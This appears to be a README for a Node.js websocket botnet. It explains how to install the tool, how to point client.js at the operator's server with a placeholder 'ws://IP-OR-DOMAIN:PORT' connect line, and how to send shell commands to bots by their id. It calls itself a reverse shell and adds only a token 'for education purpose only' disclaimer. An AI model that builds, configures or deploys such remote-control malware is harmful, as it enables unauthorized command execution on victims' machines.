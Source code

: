 
# Botnet using websocket (Node)

NodeJS Botnet using websocket to interact between clients & server. Use it at your own risks (for education purpose only).

## Installation

Use the package manager [npm](https://nodejs.org/en/download/) to install some packages (all includes in the package.json).
Just launch that : 
```bash
npm install
```

## Settings (same as reverse-shell-js)

edit the last line of client.js by adding your ip adress or using localhost if both of them are on the same network.
```javascript
client.connect('ws://IP-OR-DOMAIN:PORT', 'echo-protocol');
```
editing server.js for the connection port at port variable, line 8 :
```javascript
let port = 8080;
```

## Usage

> $ {id} shell_command

![image](https://user-images.githubusercontent.com/65828028/124164591-1f05dd80-daa1-11eb-99a8-974086eb4cde.png)

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[GNU AGPLv3](https://choosealicense.com/licenses/agpl-3.0/)
